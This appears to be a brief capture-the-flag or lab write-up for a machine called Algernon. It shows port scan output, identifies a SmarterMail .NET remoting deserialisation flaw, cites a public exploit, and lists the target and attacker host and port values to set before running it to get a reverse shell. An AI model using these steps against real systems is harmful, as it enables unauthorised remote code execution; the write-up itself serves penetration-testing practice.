 # Algernon

### Enumeration

```
9998/tcp  open  http          Microsoft IIS httpd 10.0
17001/tcp open  remoting      MS .NET Remoting services
```

There is a SmarterMail v17 service on 9998.

SmarterMail Build 6985 - Remote Code Execution&#x20;

https://www.exploit-db.com/exploits/49216

> SmarterMail before build 6985 provides a .NET remoting endpoint
>
> which is vulnerable to a .NET deserialisation attack.

### Access

Edit relevant parts of the exploit file.

```
HOST='192.168.157.65'
PORT=17001
LHOST='192.168.49.157'
LPORT=80
```

```
$ python3 49216
```
